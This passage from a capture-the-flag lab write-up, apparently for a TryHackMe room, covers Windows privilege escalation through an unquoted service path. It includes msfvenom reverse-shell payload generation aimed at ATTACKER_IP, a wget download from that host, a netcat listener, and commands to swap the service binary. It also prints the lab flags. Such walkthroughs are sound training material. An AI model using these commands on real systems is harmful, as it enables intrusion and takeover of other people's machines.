 ```
Now we are connected, we've to find the flag following command: `dir \flag.txt /s /p`

![Finding flag](images/find_flag_cmmnd.png)

We found it. Now read the flag:

![Read the flag](images/flag_text_2.png)
#### Answer: THM{AT_YOUR_SERVICE}
### Q.2: Get the flag on svcusr2's desktop.
Now it is time to abuse Unquoted Service Paths. The process is quite similar. We place a binary in a place that gets called due to a Task Scheduler task not correctly specifying its BINARY_PATH:NAME (not using double quotes), causing our payload to be called instead. Again , we need to build a payload with msfvenom, download it from our attacker machine, setup a listener, and start the scheduled task.
The problem is with the following task: `sc qc "disk sorter enterprise"`

![Printing scheduled task info](images/printing_schedule_task.png)

If we check the permissions on the binary file location we can see that we have writing privileges: `icacls c:\MyPrograms`

![Reading our permissions](images/reasding_permission_again.png)

There we can do as follows on our machine: 
```
# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev_svc2.exe

# And Setup a server
python3 -m http.server
```
Then we download the file on our target machine: `wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe`

Setup a listener on our attacker machine: `nc -lnvp 4445`

Move the file and give it permissions:
```
C:\Users\thm-unpriv>move C:\Users\thm-unpriv\rev_svc2.exe C:\MyPrograms\Disk.exe
        1 file(s) moved.

C:\Users\thm-unpriv>icacls C:\MyPrograms\Disk.exe /grant Everyone:F
processed file: C:\MyPrograms\Disk.exe
Successfully processed 1 files; Failed processing 0 files
```

Then restart the task: 
```
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```
![Restarting the task](images/restaring_task.png)

And we got a **reverse shell**. As before, find the flag by `dir \flag.txt /s /p`. We would find the location of **flag.txt**. Then read the flag and submit.
![Final task to read the flag](images/final.png)
#### Answer: THM{QUOTES_EVERYWHERE}

### Q.3: Get the flag on the Administrator’s desktop.
We know the drill by now. It is very similar with last two proccess.
```